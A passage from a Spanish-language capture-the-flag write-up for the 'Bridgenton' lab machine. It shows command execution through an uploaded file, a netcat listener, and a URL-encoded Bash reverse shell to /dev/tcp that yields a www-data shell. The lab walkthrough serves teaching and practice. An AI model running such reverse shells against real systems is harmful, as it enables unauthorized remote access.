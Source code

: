 </p>

Nos lo aceptó, y como ya sabemos que existe un directorio `/uploads`, podemos revisar si ya se encuentra ahí:

<p align="center">
<img src="/assets/images/THL-writeup-bridgenton/Captura12.png">
</p>

Lo seleccionamos y vamos a meter un argumento en la URL para ver si funciona:

<p align="center">
<img src="/assets/images/THL-writeup-bridgenton/Captura13.png">
</p>

Funciona.

Para obtener una shell, vamos a abrir una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Mandaremos nuestra **Reverse Shell** de confianza de **Bash** en la URL:
```bash
bash -c "bash -i >%26 /dev/tcp/Tu_IP/443 0>%261"
```

Y observa el resultado cuando la envíes:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.40] 43452
bash: cannot set terminal process group (572): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Bridgenton:/var/www/html/uploads$ whoami
whoami
www-data
```

